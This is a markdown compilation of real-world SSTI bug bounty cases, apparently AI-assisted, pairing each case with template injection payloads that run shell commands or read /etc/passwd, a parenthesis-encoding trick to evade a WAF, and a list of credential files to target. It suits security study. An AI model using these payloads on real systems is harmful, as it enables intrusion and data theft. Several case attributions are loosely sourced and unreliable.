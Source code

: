 ```yaml
---
title: "Real World Bug Bounty Cases:  SSTI"
tags:
  - SSTI
---
```


## Real-World Bounty Cases Involving SSTI → File Enumeration

### 1. **Uber – Jinja2 SSTI (2016)**

* A HackerOne bounty report revealed an SSTI in Uber's templates using **Jinja2**, allowing remote code execution (RCE). The bounty was awarded for this critical path. ([arXiv][1])
* This kind of RCE invariably enables reading local files like `/etc/passwd`, configuration files, or environment variables via payloads such as:

  ```jinja
  {% raw %}
  {{ cycler.__init__.__globals__.os.popen('cat /etc/passwd').read() }}
  {% endraw %}
  ```

### 2. **Ubiquiti – Twig SSTI (2017)**

* A report to Ubiquiti confirmed SSTI in a Twig-powered component, effectively enabling Local File Inclusion (LFI). Bounty valued at **\$1,000+**. ([arXiv][1])
* Twig supports file-reading filters like `file()` or `file_excerpt()`, so typical exploitation looks like:

  ```twig
  {% raw %}
  {{ '/etc/passwd'|file_excerpt(0,100) }}
  {% endraw %}
  ```

### 3. **Shopify – Handlebars SSTI (2018)**

* Another real-world SSTI case on Shopify involved Handlebars templates with potential RCE, earning a \$10,000 bounty. ([arXiv][1])
* File enumeration in Handlebars is less straightforward, but custom helpers or poor sandboxing could be abused to read sensitive files.

### 4. **Mail.ru – Velocity SSTI (2019)**

* A High-impact RCE via Velocity SSTI was reported to Mail.ru, paying out around **\$2,000**. ([arXiv][1])
* A typical inject payload:

  ```velocity
  #set($rt = "".getClass().forName("java.lang.Runtime").getRuntime())
  #set($cmd = $rt.exec("cat /etc/passwd"))
  $cmd.getInputStream()
  ```

### 5. **U.S. Department of Defense – FreeMarker SSTI (2022)**

* A critical-level FreeMarker SSTI impacting DoD systems was documented (no bounty listed) in 2022. ([YouTube][2], [Reddit][3])
* FreeMarker allows direct injection of exec calls:

  ```ftl
  <#assign f = "cat /etc/passwd"?exec>
  ${f}
  ```

### 6. **Apache Airflow – Jinja2 SSTI (2022)**

* A vulnerability in Apache Airflow using Jinja2 resulted in RCE, awarded **\$1,000+**, and associated with CVE-2022-38362. ([Reddit][3], [arXiv][1])
* This payload is commonly successful:

  ```jinja
  {% raw %}
  {{ ''.__class__.__mro__[1].__subclasses__()[…]('/etc/passwd').read() }}
  {% endraw %}
  ```

### 7. **GitHub Security Lab – Ruby (ERB, Slim SSTI) (2023)**

* Research from GitHub's Security Lab uncovered SSTI in Ruby template engines (ERB, Slim), enabling file access; the bounty was **\$2,300**. ([InfoSec Write-ups][4], [arXiv][1])
* An ERB example:

  ```erb
  <%= File.read('/etc/passwd') %>
  ```

---

## Community Write-Up: SSTI → File Enumeration on a Leading Asian Payment System

From Medium: **"Doing it the researcher's way…"** by JzeeRx details how SSTI enabled file enumeration in a payment system in Asia. ([Medium][5])

* Verified SSTI via a simple arithmetic payload `${7*7}` returning `49`.
* Then experimented with Java EL chaining, bypassing WAF by encoding parentheses:

  ```java
  ${'b'.getClass().forName('javax.script.ScriptEngineManager')
      .newInstance().getEngineByName('nashorn')
      .eval\u0028'java.lang.System.getProperty("user.home")')}
  ```

  → This successfully disclosed the application user’s home directory.
* Clearly shows how creative encoding and understanding of EL can lead to file enumeration, even through mitigations.

---

## Summary Table of Real Cases

| Year | Target / Org                       | Engine     | Impact                 | Sample Payload                                   |
| ---- | ---------------------------------- | ---------- | ---------------------- | ------------------------------------------------ |
| 2016 | Uber                               | Jinja2     | RCE → File Enumeration | `os.popen('cat /etc/passwd')`                    |
| 2017 | Ubiquiti                           | Twig       | LFI/File Read          | Twig `file_excerpt()` filter                     |
| 2018 | Shopify                            | Handlebars | RCE-like               | (Helper abuse)                                   |
| 2019 | Mail.ru                            | Velocity   | RCE → File Read        | Runtime.exec → `cat /etc/passwd`                 |
| 2022 | U.S. DoD                           | FreeMarker | RCE → File Read        | FreeMarker `?exec` directive                     |
| 2022 | Apache Airflow                     | Jinja2     | RCE (CVE)              | Jinja2 subclass trick to read files              |
| 2023 | GitHub (ERB, Slim)                 | Ruby SSTI  | File Read              | ERB `File.read('/etc/passwd')`                   |
| 2022 | Asian Payment System (Medium blog) | Java EL    | File Enumeration       | Nashorn ScriptEngine → `user.home` property read |

---

## Key Insights & Low-Level Chain Analysis

* **Engine-Specific Primitives**:

  * *Jinja2*: class traversal (`__globals__`, `.read()`)
  * *Twig*: built-in file filters
  * *Velocity*: Java `Runtime.exec()`
  * *FreeMarker*: `?exec` directive
  * *ERB / Slim*: direct Ruby calls to `File.read`

* **WAF Bypass & Encodings**:

  * Example: replacing parentheses with `\u0028` to evade detection (as shown in the Medium write-up).

* **File Targets**:

  * Common files: `/etc/passwd`, environment files, configs (e.g. `settings.py`, `application.properties`), home directory, AWS credential files.
  * Leverage introspection and class chains to pivot from SSTI to file access.

---

[1]: https://arxiv.org/html/2405.01118v1?utm_source=chatgpt.com "A Survey of the Overlooked Dangers of Template Engines"
[2]: https://www.youtube.com/watch?v=u8BuuGEZcIg&utm_source=chatgpt.com "SSTI for Bug Bounty | Server-Side Template Injection"
[3]: https://www.reddit.com/r/bugbounty/?utm_source=chatgpt.com "r/bugbounty"
[4]: https://infosecwriteups.com/bug-bounty-writeup-2500-reward-for-session-hijack-via-chained-attack-2a4462e01d4d?utm_source=chatgpt.com "Bug Bounty Writeup: $2500 Reward for Session Hijack via ..."
[5]: https://medium.com/%40jazdprince/doing-it-the-researchers-way-how-i-managed-to-get-ssti-server-side-template-injection-which-66b239ca0104?utm_source=chatgpt.com "Doing it the researcher's way: How I Managed to Get SSTI ..."





